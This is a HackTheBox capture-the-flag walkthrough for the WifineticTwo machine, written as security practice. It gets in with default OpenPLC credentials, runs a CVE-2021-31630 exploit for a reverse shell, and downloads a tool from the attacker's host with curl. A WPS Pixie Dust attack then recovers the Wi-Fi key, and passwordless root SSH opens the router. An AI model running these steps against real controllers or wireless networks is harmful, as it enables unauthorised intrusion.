

---
tags:
  - hack
  - linux
---
# HackTheBox: [WifineticTwo](https://app.hackthebox.com/machines/WifineticTwo)

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Tue Jun  4 14:20:51 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp -sCV t
Nmap scan report for t (10.10.11.7)
Host is up (0.11s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy Werkzeug/1.0.1 Python/2.7.18
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://t:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 232
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.Zl93Ng.oH_1xM_kRkQBznO-OvEbPH8zfmU; Expires=Tue, 04-Jun-2024 20:26:10 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Tue, 04 Jun 2024 20:21:10 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 302 FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 219
|     location: http://0.0.0.0:8080/login
|     vary: Cookie
|     set-cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlfQ.Zl93NQ.gRPy_Wjrb-HxzvGtRVb6_LmIeRs; Expires=Tue, 04-Jun-2024 20:26:09 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Tue, 04 Jun 2024 20:21:09 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to target URL: <a href="/login">/login</a>. If not click the link.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     content-type: text/html; charset=utf-8
|     allow: HEAD, OPTIONS, GET
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.Zl93Ng.oH_1xM_kRkQBznO-OvEbPH8zfmU; Expires=Tue, 04-Jun-2024 20:26:10 GMT; HttpOnly; Path=/
|     content-length: 0
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Tue, 04 Jun 2024 20:21:10 GMT
|   RTSPRequest:
|     HTTP/1.1 400 Bad request
|     content-length: 90
|     cache-control: no-cache
|     content-type: text/html
|     connection: close
|     <html><body><h1>400 Bad request</h1>
|     Your browser sent an invalid request.
|_    </body></html>
| http-methods:
|_  Supported Methods: HEAD OPTIONS GET
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  4 14:21:23 2024 -- 1 IP address (1 host up) scanned in 31.57 seconds
```

#### 8080/tcp-http

Port 8080 is running "OpenPLC". Googling reveals default credentials `openplc:openplc`.



## RCE

```console
$ python3 ./cve_2021_31630.py -lh 10.10.14.2 -lp 443 http://t:8080
------------------------------------------------
--- CVE-2021-31630 -----------------------------
--- OpenPLC WebServer v3 - Authenticated RCE ---
------------------------------------------------
[>] Found By : Fellipe Oliveira
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t ]
[>] Target   : http://t:8080
[>] Username : openplc
[>] Password : openplc
[>] Timeout  : 20 secs
[>] LHOST    : 10.10.14.2
[>] LPORT    : 443
[!] Checking status...
[+] Service is Online!
[!] Logging in...
[+] Logged in!
[!] Restoring default program...
[+] PLC Stopped!
[+] Cleanup successful!
[!] Uploading payload...
[+] Payload uploaded!
[+] Waiting for 5 seconds...
[+] Compilation successful!
[!] Starting PLC...
[-] Exception : HTTPConnectionPool(host='t', port=8080): Read timed out. (read timeout=20)
```

The reverse shell user is `root` but I only see a `user.txt` flag. Maybe this is a container?

```console
root@attica01:/opt# find / -name user.txt 2>/dev/null
/root/user.txt
root@attica01:/opt# cat /root/user.txt
ebe9d2...
```

## PE

This device was a wireless interface:

```console
root@attica01:/opt/PLC# ifconfig -a
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.3.2  netmask 255.255.255.0  broadcast 10.0.3.255
        inet6 fe80::216:3eff:fefc:910c  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:fc:91:0c  txqueuelen 1000  (Ethernet)
        RX packets 27819  bytes 39052284 (39.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13514  bytes 1542831 (1.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 846  bytes 63523 (63.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 846  bytes 63523 (63.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
wlan0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether 02:00:00:00:02:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```console
root@attica01:/opt/PLC# iw dev wlan0 scan
BSS 02:00:00:00:01:00(on wlan0)
        last seen: 1252.828s [boottime]
        TSF: 1717535940788330 usec (19878d, 21:19:00)
        freq: 2412
        beacon interval: 100 TUs
        capability: ESS Privacy ShortSlotTime (0x0411)
        signal: -30.00 dBm
        last seen: 0 ms ago
        Information elements from Probe Response frame:
        SSID: plcrouter
        Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0
        DS Parameter set: channel 1
        ERP: Barker_Preamble_Mode
        Extended supported rates: 24.0 36.0 48.0 54.0
        RSN:     * Version: 1
                 * Group cipher: CCMP
                 * Pairwise ciphers: CCMP
                 * Authentication suites: PSK
                 * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
        Supported operating classes:
                 * current operating class: 81
        Extended capabilities:
                 * Extended Channel Switching
                 * SSID List
                 * Operating Mode Notification
        WPS:     * Version: 1.0
                 * Wi-Fi Protected Setup State: 2 (Configured)
                 * Response Type: 3 (AP)
                 * UUID: 572cf82f-c957-5653-9b16-b5cfb298abf1
                 * Manufacturer:
                 * Model:
                 * Model Number:
                 * Serial Number:
                 * Primary Device Type: 0-00000000-0
                 * Device name:
                 * Config methods: Label, Display, Keypad
                 * Version2: 2.0
```

This device is vulnerable to the [Pixie Dust Attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)).

```console
root@attica01:/dev/shm# curl 10.10.14.2/oneshot.py -o oneshot.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 53267  100 53267    0     0   122k      0 --:--:-- --:--:-- --:--:--  123k
```

```console
root@attica01:/dev/shm# python3 ./oneshot.py -i wlan0 -b 02:00:00:00:01:00 -K
[*] Running wpa_supplicant…
[*] Running wpa_supplicant…
[*] Trying PIN '12345670'…
[*] Scanning…
[*] Authenticating…
[+] Authenticated
[*] Associating with AP…
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response…
[*] Received WPS Message M1
[P] E-Nonce: B542B39A1F72E4F40A104DEA73973D5E
[*] Sending WPS Message M2…
[P] PKR: 0EE12E14399777AFD4F4C9065A28AAE5912E8EC956697969F53EE7C0A0E588B0F92CC86F716EBBCB645689E77CCA6EE592BF7E2A2DD3E6207BF94F5C432EC859A3EA010AE04C1C4FD655F9BD7AF93C45446B97D62FA0883B85F328591DB090415B936C2812A2A9A50ACA3AFD7CDDDF236B89A724494F4B9B2F7989E00895249D985C5ECAB6221B98650B64A8B6B384D25E4771A1C7DB404D910279ED1E2E825919490C6597C087E3F555847027B070F63D9034D08A2904BE8F142107BB169D85
[P] PKE: 1A179659BDF0F47053909FD8DB228CAEEA5E698F20F491949E225D77333A4DAA8AF8B291BB489C7C098B6E202284381869075A4367C501AD2BC2E7F901A31024256A5BEB16B85198D96919794DC9BDBD6E3906641D7E42F000227D4E99EB0E29AC65DD494B6CB76BB84AD60313D3DBFAB31FE48EFA9A2189C3C529EA40021C2555FBA74337443C0C66515BAFD4959FAC57F0738C99AD14573E553D5DD916C5ED4FA0B55FD01E4BD3E5214A0B218FCABC225F799EA15B43BAFE5090C960068FA5
[P] AuthKey: E147434633E226F7934B244DF0AE7B15238AB17CFB257022677E6CB65DE19BAD
[*] Received WPS Message M3
[P] E-Hash1: 359D0D5FFCF5DA3E8D31A66FD4F9BB59BB436991649B2F1C5F1E9578AECDCE86
[P] E-Hash2: 868A2B84A68072D3E1B72D0176A1B75B1D5ADB3BA84D0C44350EC9AEFA5269C0
[*] Sending WPS Message M4…
[*] Received WPS Message M5
[+] The first half of the PIN is valid
[*] Sending WPS Message M6…
[*] Received WPS Message M7
[+] WPS PIN: '12345670'
[+] WPA PSK: 'NoWWEDoKnowWhaTisReal123!'
[+] AP SSID: 'plcrouter'
```

We manually setup the interface's IP information using a common default network.

```console
root@attica01:/dev/shm# ifconfig wlan0 192.168.1.42 netmask 255.255.255.0
```

And the router is at the common default IP address.

```text
root@attica01:/dev/shm# ping 192.168.1.1
PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=0.563 ms
64 bytes from 192.168.1.1: icmp_seq=2 ttl=64 time=0.128 ms
^C
--- 192.168.1.1 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1002ms
rtt min/avg/max/mdev = 0.128/0.345/0.563/0.217 ms
```

Netcat is available for rudimentary port scanning…

```text
root@attica01:/dev/shm# which nc
/usr/bin/nc
```

SSH is running on the target, and it's default config is OpenWRT passwordless SSH as `root`, just like the old days:

```console
root@attica01:/dev/shm# ssh root@192.168.1.1
The authenticity of host '192.168.1.1 (192.168.1.1)' can't be established.
ED25519 key fingerprint is SHA256:ZcoOrJ2dytSfHYNwN2vcg6OsZjATPopYMLPVYhczadM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.1' (ED25519) to the list of known hosts.
BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)
  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~# pwd
/root
root@ap:~# ls
root.txt
root@ap:~# cat root.txt
4bee31...
```

## Open Questions

What's a reliable way to test for the Pixie Dust vulnerability?
